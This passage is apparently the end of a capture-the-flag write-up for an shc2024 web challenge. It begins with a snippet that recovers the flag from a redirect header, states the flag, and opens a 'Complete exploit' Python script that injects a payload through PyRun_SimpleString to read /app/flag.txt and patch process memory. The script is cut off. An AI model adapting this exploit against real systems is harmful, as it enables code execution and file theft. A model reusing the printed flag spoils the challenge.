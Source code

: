 ```python
import urllib.parse
time.sleep(1.5)  # Apparently still needs a moment
r = requests.get(URL+"/contact/", allow_redirects=False)
print(urllib.parse.unquote(r.headers['Location']))
```

Note that this implicitly assumes the flag will be shorter than the URL.
Turns out that it is *exactly* as long - and the URL has an extra dot
which makes it so. Coincidence? &#128539;

The flag: `shc2024{did_you_know_python_has_a_heap_O.o?}`

# Complete exploit

*   For simplicity, this skips getting the activation code.
*   If run without argument, will talk to `http://localhost:8080/`, otherwise,
    to the remote SSL tunnel provided as arg.
*   **Remember: this has to be run right after starting the instance**

```python
#!/usr/bin/python3

import base64
import ctypes
import requests
import sys
import time
import urllib.parse

# URL and activation code
URL = "http://localhost:8080"
ACTIVATION_CODE=b"test"
if len(sys.argv)>1:
    URL = sys.argv[1]
    ACTIVATION_CODE=b"QP-fREP4"

# Found with gdb in the container started directly from
# ghcr.io/departement-of-sales/tinysaas:latest
PY_RUN_SIMPLE_STRING=0x4b5844

# In-memory patch the YT address in /contact/ handler to be the flag instead.
PYTHON_PAYLOAD = b"""
import re
import ctypes

# Read the memory map
with open(f"/proc/self/maps", "r") as maps_file:
    memory_maps = maps_file.readlines()

# Find all the R/W segments
rw_segments = []
for line in memory_maps:
    if "rw" in line.split()[1]:
        match = re.match(r"([0-9a-f]+)-([0-9a-f]+)", line)
        if match:
            start = int(match.group(1), 16)
            end = int(match.group(2), 16)
            rw_segments.append((start, end))

# Read the flag
flag = open("/app/flag.txt", "r").readline()
patch = flag.encode('ascii')

# Replace all the occurences of the YT url with the flag
```